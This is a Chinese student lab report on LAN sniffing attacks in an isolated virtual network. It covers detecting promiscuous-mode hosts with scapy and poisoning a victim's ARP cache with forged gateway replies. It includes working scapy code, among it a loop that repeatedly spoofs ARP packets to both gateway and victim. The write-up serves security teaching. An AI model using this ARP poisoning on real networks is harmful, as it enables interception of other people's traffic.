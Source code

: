 # 第四章实验 网络监听

### 网络拓扑

![](/img/0x04_a.png)

* 网关：
  * 172.16.222.1
  * 08:00:27:36:d3:2a  /  enp0s10
  * ![](/img/0x04_1.png)
* 攻击者：
  * 172.16.222.111
  * 08:00:27:0e:34:8d  /  eth0
  * ![](/img/0x04_2.png)
* 受害者：
  * 172.16.222.101
  * 08:00:27:1d:d1:d3  /  enp0s3
  * ![](/img/0x04_3.png)



### 实验准备

* 在攻击者主机上安装scapy（Linux）

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### 实验一：检测局域网中的异常终端

​	检查受害者主机是否开启混杂模式，需要注意的是，结果中并没有PROMISC字符串

```bash
ip link show enp0s3
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
     link/ether 08:00:27:1d:d1:d3 brd ff:ff:ff:ff:ff:ff
```

​	在攻击者主机上进入scapy，并在 scapy 的交互式终端输入以下代码回车执行

```python
pkt = promiscping("172.16.222.101")
```

> promiscping的作用是：Send ARP who-has requests to determine which hosts are in promiscuous mode，即发送ARP请求以确定哪些主机处于混杂模式

​	此时的输出结果为下所示

```python
>>> pkt = promiscping("172.16.222.101")
---------------------------------------------------------------------------
PermissionError                           Traceback (most recent call last)
<ipython-input-1-13d733bc8cc2> in <module>
----> 1 pkt = promiscping("172.16.222.101")

/usr/lib/python3/dist-packages/scapy/layers/l2.py in promiscping(net, timeout, fake_bcast, **kargs)                                                       
    670     """Send ARP who-has requests to determine which hosts are in promiscuous mode
    671     promiscping(net, iface=conf.iface)"""
--> 672     ans, unans = srp(Ether(dst=fake_bcast) / ARP(pdst=net),
    673                      filter="arp and arp[7] = 2", timeout=timeout, iface_hint=net, **kargs)  # noqa: E501
    674     ans = ARPingResult(ans.res, name="PROMISCPing")

/usr/lib/python3/dist-packages/scapy/sendrecv.py in srp(x, promisc, iface, iface_hint, filter, nofilter, type, *args, **kargs)                            
    550     if iface is None and iface_hint is not None:
    551         iface = conf.route.route(iface_hint)[0]
--> 552     s = conf.L2socket(promisc=promisc, iface=iface,
    553                       filter=filter, nofilter=nofilter, type=type)   
    554     result = sndrcv(s, x, *args, **kargs)

/usr/lib/python3/dist-packages/scapy/arch/linux.py in __init__(self, iface, type, promisc, filter, nofilter, monitor)                                     
    396                 "The 'monitor' argument has no effect on native linux sockets."                                                                   
    397             )
--> 398         self.ins = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(type))  # noqa: E501
    399         if not nofilter:
    400             if conf.except_filter:

/usr/lib/python3.9/socket.py in __init__(self, family, type, proto, fileno)
    230             if proto == -1:
    231                 proto = 0
--> 232         _socket.socket.__init__(self, family, type, proto, fileno)
    233         self._io_refs = 0
    234         self._closed = False

PermissionError: [Errno 1] Operation not permitted
```

​	显然这是错误的，查阅资料得知此操作需要root权限，退出scapy并`sudo scapy`进入，重新键入代码得到结果：

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.

Received 0 packets, got 0 answers, remaining 1 packets
```

​	此时，回到受害者主机上，输入以下代码启动网卡混杂模式，并再次重复第一步确认是否开启成功：

```bash
sudo ip link set enp0s3 promisc on
```

![](/img/0x04_4.png)

​	如图，成功开启受害者主机网卡的混杂模式。让我们回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异。

```python
>>> pkt = promiscping("172.16.222.101")
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
  08:00:27:1d:d1:d3 PcsCompu 172.16.222.101
```

​	很显然，在受害者主机上打开网卡混杂模式后，攻击者的promiscping操作得到了正常的回应，返回结果是受害者主机的MAC地址和IP地址。

​	在受害者主机上用`sudo ip link set enp0s3 promisc off`命令来手动关闭该网卡的「混杂模式」。



### 实验二 手工单步“毒化”目标主机的 ARP 缓存

​	以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](/img/0x04_5.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
# 结果
# >>> recved = srp(arpbroadcast, timeout=2)
# Begin emission:
# Finished sending 1 packets.
# *
# Received 1 packets, got 1 answers, remaining 0 packets

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.222.101
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.222.1", pdst="172.16.222.101", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

​	如下图：

![](/img/0x04_6.png)

​	此时在受害者主机上查看 ARP 缓存，发现靶机并没有任何变化，按道理来说应该成功毒化了才对

![](/img/0x04_7.png)

​	在靶机上用`tcpdump`进行抓包实验，发现根本什么都收不到

![](/img/0x04_8.png)

​	我联想到[视频](https://www.bilibili.com/video/BV1CL41147vX?p=37)中似乎有类似的问题，所以尝试将sendp改为send，效果显著

![](/img/0x04_9.png)

​	可以看到，受害者主机立刻就有了反应，但是在第一次尝试后，还是投毒失败。在终端上实时监视时可以看到在抓包时，上图中红框部分，前半部分在我们投毒时几乎立即有了反应，但后半部分过了一段时间才出现，此时立即结束抓包并检查ARP目录，发现投毒失败，推测可能是Debian系统每隔一段时间就会在后台向网关确定MAC地址是否有变化。

​	立即再次在攻击者主机上发送投毒包，来受害者主机上查看，一段时间内（绿框）受害者主机被成功毒化，但是一段时间后MAC地址又会变为正常（黄框），基本确定我的假设。



### 实验三 基于scapy编写自动化工具进行投毒

​	以下代码在攻击者主机中的scapy交互环境中使用

```python
# 投毒
def trick(gm,vm): # gm为网关IP地址，vm为受害者主机IP地址
    send(ARP(op="who-has", pdst=vm, psrc=gm))
    send(ARP(op="who-has", pdst=gm, psrc=vm))

# 主体函数
def do_now():
    for x in range(0,100):
        trick("172.16.222.1","172.16.222.101")
        time.sleep(0.1) # 每0.1秒发一次
        
do_now()
```

![](/img/0x04_b.png)

​	如上图，在执行自动化脚本后，成功投毒。



### 参考链接

[ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112)

[Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)
